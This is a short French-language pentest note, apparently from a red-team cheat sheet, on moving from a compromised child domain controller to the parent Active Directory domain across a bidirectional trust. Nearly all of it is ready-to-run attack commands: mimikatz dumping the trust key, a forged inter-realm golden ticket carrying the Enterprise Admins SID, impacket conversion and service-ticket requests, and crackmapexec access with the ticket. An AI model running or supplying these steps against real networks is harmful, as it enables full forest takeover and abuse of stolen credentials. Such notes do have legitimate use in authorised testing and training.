 ### trust bidirectionnal, child -> parent

Une fois qu'on a le contrôle d'un premier DC, s'y connecter et avec mimikatz:

```powershell
lsadump::trust /patch
```

Ce qui permet de trouver les SID dont nous auront besoin, ainsi que la trustkey.

Ensuite, toujours avec mimikatz:

```powershell
kerberos::golden /user:Administrator /domain:child.internal.local /sid:S-1-5-21-3056178012-3972705859-491075245 /sids:S-1-5-21-2734290894-461713716-141835440-519 /rc4:bd0e4bd0efde459162c036970ef3489e /target:internal.local /ticket:C:\Windows\test.kirbi /service:krbtgt
```

> /domain: le domaine dont nous avons le contrôle  
> /sid: le sid du domaine dont nous avons le contrôle  
> /sids: le sid du domaine visé (/!\ on rajoute -519, qui correspond au groupe "enterprise admin")  
> /target: le domaine visé  
> /rc4: la trustkey

On récupère ensuite le .kirbi sur notre host et on le converti en .ccache:

```bash
impacket-ticketconverter test.kirbi test.ccache
```

On l'exporte:

```bash
export KRB5CCNAME=test.ccache
```

Nous pouvons ensuite faire le request d'un TGS sur le DC principal:

```bash
impacket-getST -k -no-pass -spn HOST/DC01 internal.local/Administrator@child.internal.local
```

On l'exporte à son tour -> profit.

>/!\ nous sommes toujours Administrateur du domaine child, mais avec les droits sur le domaine parent, ce qui implique qu'il faut spécifier le nom du domaine dans certains cas, typiquement:

```bash
crackmapexec smb 192.168.210.10 --use-kcache -d child.internal.local
```
